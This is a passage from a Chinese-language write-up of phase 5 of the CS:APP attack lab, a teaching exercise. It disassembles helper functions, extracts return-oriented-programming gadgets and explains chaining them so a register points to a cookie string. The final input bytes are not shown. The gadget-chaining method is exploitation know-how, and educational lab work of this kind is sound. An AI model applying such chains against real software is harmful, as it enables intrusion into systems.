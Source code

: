    过关截图  
      ![Wrong](img/csapp-lab-writeup/rtarget_2_2.png)  
- **phase5**
  - 在这一关中，主要会用到如下几个函数

      ```cpp
      0000000000401a03 <addval_190>:
        401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
        401a09: c3                    retq
      00000000004019d6 <add_xy>:
        4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
        4019da: c3                    retq
      00000000004019a0 <addval_273>:
        4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
        4019a6: c3                    retq
      ```

    其中分别提取出可利用的gadgets

      ```cpp
      401a06: 48 89 e0              movq %rsp, %rax
      401a09: c3                    retq

      4019d8: 04 37                 add 0x37, %al
      4019da: c3                    retq

      4019a2: 48 89 c7              movq %rax, %rdi
      4019a5: c3                    retq
      ```

    这些gadgets组合起来，可以获得指定偏移量的栈地址。如果将cookie字符串写入至此地址上，则可以达到 **%rdi指向cookie字符串** 这个目的，这样便可以通过当前关卡。

    使用效果如下  
      ![Wrong](img/csapp-lab-writeup/rtaget_3_1.png)  
  - 最后的输入数据如下
    > 注意第13行只有7个字节，并非笔者的疏忽
